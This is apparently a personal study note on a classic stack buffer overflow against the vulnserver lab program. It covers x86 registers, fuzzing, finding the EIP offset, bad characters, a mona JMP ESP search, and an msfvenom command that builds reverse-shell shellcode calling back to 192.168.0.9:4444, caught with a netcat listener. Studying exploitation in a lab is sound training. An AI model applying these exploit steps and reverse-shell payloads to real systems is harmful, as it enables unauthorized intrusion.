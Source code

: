 # basics

!(Buffer Overflow])[img/x86Memory.png]

## Stack
* When a tread is running it execute code form the progam image or the DDLs.
* The thread requieres short term data areas for functions, variable, program control information => stack.
* Each threat has its own stack
* LIFO (push/pop)

## Function return mechanics
When code wihting a thread calls a function is must know on which address to return to once the function is completed

Example of return mechanics (stored in a section of stack called stack frame):
| Thread stack frame example|
| ------------- |
| Function A return address: 0x00401024 |
| Parameter 1 for Function A: 0x000000040|
| Parameter 2 for Function A: 0x000001000|

# CPU registers
Small high speed cpu storage locations
* Different registers exists from 32-bit to 8 bits

Most imporant registers (32-bit):
* EAX: for aritmecical and logic instrucations
* EBX: base pointer for memory addresses
* ECX: Loop, shift and rotation counter
* EDX: I/O Port addressing, division, multiplication
* ESI: Pointer of data and source 
* EDi: Pointer of data nd desination in string copy operations

* ESP stack pointer (keeps track of most receent reference locations by stack)
* EBP base pointer (stores a pointer to the top of the sack when a funciton is called)
* EIP always points to the next code instrucation to be executed

# sample volnurable code (C)
//what happens when buffer.length greater than 64? => buffer overflow; overflowing its reserved boundaries
``char buffer[64]; strcpy(buffer, argv[1]);``


# windows
## immunity debugger 
* Open file exe
* Then you can start debugging

## example vulnserver.exe (TCP server)
with nc you can setup a connection to vulnserver to check it

* but kill nc it and run the script ``bufferOverflowHelper.py`` and will hopefully result in something like ``Fuzzing crashed at 22105 bytes``
* Also we see in the immunulty debugger that EIP has been overridding and that it is failing

### detect location of EIP

* to detect location use: ``/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 24105``
* will generate a text and pass this into the ``bufferOverflowHelper.py``
* in immuniaty debugger save the EIP hex, f.i: ``386F4337``
* again with metasploit detect in which location the value is ``/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 24105 -q 386F4337``
* This will geneate the location: ``Exact match at offset 2003`` which means that EIP starts at *2003*

### override EIP
* in your python file substitute buffer where EIP starts (in our case *2003*) with ``buffer = "A" * 2003 + "B" * 4``
* when running the script we will set that EIP is ``42424242`` => BBBB
* Search for badchars in Google, leads to: https://github.com/mrinalpande/scripts/blob/master/python/badchars
* copy this bad chars in your python script and delete 00 && X70 put it in ``badchars`` variable
* buffer variable should look like ``buffer = "A" * 2003 + "B" * 4 + badchars`` 

### check hexdumb of ESP for bad chars
*We have to take the missing chars in the hex dump (Bad chars) out of the shell code for later!*
* check hexdumb of ESP (mark ESP Hex => right click => follow in dump)
(Hexdump) [img/bufferOverflowHexDumpESP.png]
* Check fump for missing chars, f.e.: : ``11 12 B0 14`` => 13 is missing and would be a bad char

### looking for DLL which has no protection (with Monamodules)
Some DLLs have protection against buffer overflow so we need to finds DLLs which do not have it.
* Download monamodule from github: (Mona)[https://github.com/corelan/mona]
* Paste mona.py file under: ``D:\Immunity Debugger\PyCommands``
* In immunuty debugger writh (text field in the lower left corner): ``!mona modules`` and hit enter
* We then see protection settings for certain dlls (check for everything false and attached to the program), in our examlpe: ``essfunc.dll``

### locate JMP commands
Pointer will jump to our malicuous shell code
* type ``locate nasm_shell``
* Call then the path: /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 
* Type ``JMP ESP`` and it will generate the hashcode equivalend of it: ``FFE4``
* In immunity debugger type in the lower left corner: ``!mona find -s "\xff\xe4" -m essfunc.dll`` => remember: \x *ff* \x *e4*
* Generates: ``\xff\xe4 & 0x625011af``
* In our script we write in reverse order ``buffer = "A" * 2003 + "\xaf\x11\x50\x62"``
* In immunity debugger debug (lclick on most right symbol, in line with the play button) and enter: ``625011af``
* We are overridding the EIP with our command, you will see the hash code 625011af

### gaining shell
Will generate some shell code for reverse shell
// -b including bad chars if we detected some
type with ip of the "acker": ``msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.9 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"``
* Copy this into our python file as overflow variable like: ``buffer = "A" * 2003 + "B" * 4 + "\xaf\x11\x50\x62" + overflow``
* Add naf space to variable (play a bit around with the size: "\x90" * 8) ``buffer = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 8 +  overflow``=> example bufferOverflowHelperFinal.py
* Start netcat on linux by listening on port 4444
* Run applicatino in admin mode and execute script
* Reverse shell established
